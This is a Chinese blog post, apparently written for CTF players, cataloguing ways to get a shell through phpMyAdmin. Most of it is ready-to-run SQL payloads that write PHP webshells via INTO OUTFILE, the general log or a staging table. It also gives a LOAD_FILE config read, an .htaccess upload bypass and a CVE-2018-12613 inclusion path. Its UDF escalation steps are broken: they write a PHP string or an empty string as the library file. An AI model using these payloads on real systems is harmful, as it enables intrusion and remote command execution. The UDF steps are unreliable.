 ```yaml
---
layout: post
title: phpMyadmin getShell方法
subtitle: phpMyadmin getShell
date: 2024-08-15 18:47
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
number headings: first-level 2, max 4, 1.1., auto
published: true
---
```

## 1. phpMyAdmin getshell 常见套路

Windows 和 Linux 原理基本相同

### 1.1. `INTO OUTFILE` 写 PHP 马

**原理**：MySQL 可以把查询结果直接写到服务器文件系统，如果 Web 目录可写，就能写一段 PHP 代码变成 WebShell。

**条件检查：**

```sql
SHOW VARIABLES LIKE 'secure_file_priv'; 
SHOW GRANTS FOR CURRENT_USER();
```

- `secure_file_priv` 为空或是 Web 根目录。
- 当前用户有 `FILE` 权限。

**利用：**

```sql
select @@basedir;  -- 查找绝对路径
-- linux
SELECT '<?php system($_REQUEST["cmd"]);?>' INTO OUTFILE '/var/www/html/shell.php';
-- windows
SELECT '<?php eval($_REQUEST["cmd"]);?>' INTO OUTFILE 'c:\phpstudy\www\shell.php';
```

**CTF 变种：**

- 出题人可能会限制 `secure_file_priv`，这时需要找 **符号链接绕过** 或 **mysql 日志写马**

### 1.2. 利用 MySQL 日志写 WebShell

**原理**：MySQL 的 general log、slow log 可以记录 SQL 语句到文件。通过设置日志路径到 Web 目录，就能写 PHP 代码。

**操作：**

```sql
SET global general_log = 'ON'; 
SET global general_log_file = '/var/www/html/shell.php'; 
SELECT '<?php system($_GET["cmd"]); ?>'; 
SET global general_log = 'OFF';
```

访问 `shell.php` 即可。

### 1.3. `LOAD_FILE` 读取敏感文件

虽然不是直接 getshell，但可以辅助：

```sql
SELECT LOAD_FILE('/var/www/html/config.php');
```

可能拿到数据库连接密码，从而用其他方式 getshell。

### 1.4. 导入功能绕过上传限制

在 phpMyAdmin 的 “导入” 页面上传 `.php` 文件，出题人可能没有过滤，或者导入路径就是 Web 可访问路径。

- 常见的 CTF trick：导入 `.txt` 文件，但内容是 PHP 代码，然后用双扩展名 `shell.php.txt`，再通过 `.htaccess` 把 `.txt` 解析成 PHP。

### 1.5. 创建数据库和表写入 WebShell

```sql
CREATE TABLE test( id text(500) not null);
INSERT INTO test (id) VALUES('<?php @eval($_POST[cmd]);?>');
SELECT id FROM test INTO OUTFILE 'C:/phpstudy/WWW/1.php';
DROP TABLE IF EXISTS test;
```

### 1.6. phpMyAdmin 历史漏洞 getshell

在 CTF 中常用老版本 phpMyAdmin：

- **CVE-2018-12613**：文件包含漏洞，可以通过 `?target=db_sql.php%253f/../../../../.../shell` 来执行任意文件。
- **CVE-2016-5734**：SQL 执行漏洞，配合 OUTFILE 直接 getshell。

### 1.7. MySQL UDF 提权

#### 1.7.1. Linux

如果 MySQL 用户有 `FILE` 权限且是 root 运行，可以写入 `.so` 动态库到插件目录，创建自定义函数执行系统命令：

```sql
SELECT '<?php eval($_POST[a]);?>' INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so'; CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.so'; SELECT sys_eval('id');
```

但 CTF 中较少，因为需要 root 权限。

#### 1.7.2. Windows

如果 MySQL 服务在 Windows 上以 `SYSTEM` 运行，且有 `FILE` 权限，可以写 DLL 到 `plugin` 目录，注册自定义函数执行系统命令：

```sql
SELECT '' INTO DUMPFILE 'C:\\Program Files\\MySQL\\MySQL Server 5.7\\lib\\plugin\\udf.dll';
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';
SELECT sys_eval('whoami');
```

CTF 偶尔会出，真实环境比较少见
